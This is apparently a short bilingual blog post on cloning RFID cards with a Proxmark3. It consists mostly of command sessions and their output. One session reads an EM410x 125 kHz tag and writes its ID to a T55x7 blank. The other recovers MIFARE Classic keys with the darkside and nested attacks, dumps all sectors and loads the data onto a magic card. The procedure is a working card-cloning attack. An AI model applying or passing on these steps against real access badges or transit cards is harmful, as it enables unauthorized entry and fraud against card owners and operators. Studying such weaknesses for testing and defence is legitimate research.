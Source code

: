 ```yaml
---
layout: post 
title: How to clone RFID cards 如何复制RFID卡
tags:
- rfid
---
```


Tool used: Proxmark3 with [野马无疆PM3 Proxmark3 RFID ICID读卡 全加密](https://item.taobao.com/item.htm?spm=a230r.7195193.1997079397.9.hb2yGL&id=556716910562&abbucket=9)
useful links:
 - https://github.com/Proxmark/proxmark3/wiki/commands
 - https://zhuanlan.zhihu.com/p/29661557
 - http://www.proxmark.org/forum/viewtopic.php?id=2554

## How to clone a low frequence (125KHZ) RFID card
```
proxmark3> lf search
Reading 30000 bytes from device memory

Data fetched
Samples @ 8 bits/smpl, decimation 1:1
NOTE: some demods output possible binary
  if it finds something that looks like a tag
False Positives ARE possible


Checking for known tags:

EM410x pattern found:

EM TAG ID      : ***********
Unique TAG ID  : ***********

Valid EM410x ID Found!

proxmark3> lf em em410xwrite <EM TAG ID> 1
Writing T55x7 tag with UID 0x*********** (clock rate: 64)
#db# Started writing T55x7 tag ...
#db# Clock rate: 64
#db# Tag T55x7 written with 0xff82345234

```

## How to clone a high frequence card
```
proxmark3> hf search

 UID : xx xx xx xx
ATQA : xx xx
 SAK : xx [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
Answers to chinese magic backdoor commands: NO

Valid ISO14443A Tag Found - Quiting Search

proxmark3> hf mf mifare
...
parity is all zero,try special attack!just wait for few more seconds...
Found valid key:ffffffffffff 

proxmark3> hf mf nested 1 0 A ffffffffffff d
Testing known keys. Sector count=16
nested...
-----------------------------------------------
Iterations count: 0


|---|----------------|---|----------------|---|
|sec|key A           |res|key B           |res|
|---|----------------|---|----------------|---|
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|001|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|002|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|003|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|004|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|005|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|006|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|007|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|008|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|009|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|010|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|011|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|012|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|013|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|014|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|015|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|---|----------------|---|----------------|---|
Printing keys to binary file dumpkeys.bin...

proxmark3> hf mf dump 1
...
Successfully read block  2 of sector 15.
#db# READ BLOCK FINISHED       
Successfully read block  3 of sector 15.
Dumped 64 blocks (1024 bytes) to file dumpdata.bin

proxmark3> script run dumptoemul.lua

# with blank UID card
proxmark3> hf mf cload <uid>
Loaded from file: <uid>.eml
```

